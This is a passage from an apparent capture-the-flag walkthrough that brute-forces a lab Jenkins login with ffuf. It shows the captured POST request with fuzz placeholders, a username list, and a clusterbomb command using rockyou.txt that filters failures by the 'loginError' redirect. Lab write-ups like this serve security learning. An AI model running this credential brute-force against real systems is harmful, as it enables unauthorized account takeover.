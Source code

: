 ```bash
cat request.txt
POST /j_acegi_security_check HTTP/1.1
Host: localhost:8001
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://localhost:8001
Connection: close
Referer: http://localhost:8001/loginError
Cookie: JSESSIONID.01c6bbcd=node01bkv92y8hsy5gepu3k07vyrwo0.node0
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

j_username=USERFUZZ&j_password=PASSFUZZ&from=%2F&Submit=Sign+in
```

Notice the **USERFUZZ** and **PASSFUZZ** in the request, these are placeholder that we need to add to the request: ffuf will replace them with words from the wordlists we will specify.  
Create a **user.txt** file with some likely usernames.

```bash
cat users.txt
admin
jenkins
aubreanna
```

We will launch ffuf in clusterbomb mode: ffuf will try every possible combination of words from user.txt and password from rockyou.txt.  
Notice how for each wordlist we specify the placeholder it needs to replace.  
Generally you can instruct ffuf to recognize the "success" based on the HTTP code received in the response. Unfortunately in this case both failed and successful logins return code 302, so we need to use another method.
If you want to see this for yourself just pull the **jenkins/jenkins:2.250** docker image from Dockerhub, which is the same version of the jenkins service on our target machine. This would allow you to check how the service responds to a successfull login.
Anyway, the -fr option comes to the rescue! It is used to filter out responses based on a regular expression.  
Using Burp we can intercept the response to a login request with wrong credentials and we notice that it contain the line `Location: http://internal.thm:8002/loginError`.  
It is a fair assumption that a successful response would not contain the string `loginError` so we can use it as a filter.

```bash
ffuf -request request.txt -request-proto http -mode clusterbomb -w users.txt:USERFUZZ -w /usr/share/wordlists/rockyou.txt:PASSFUZZ -fr loginError

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost:8001/j_acegi_security_check
```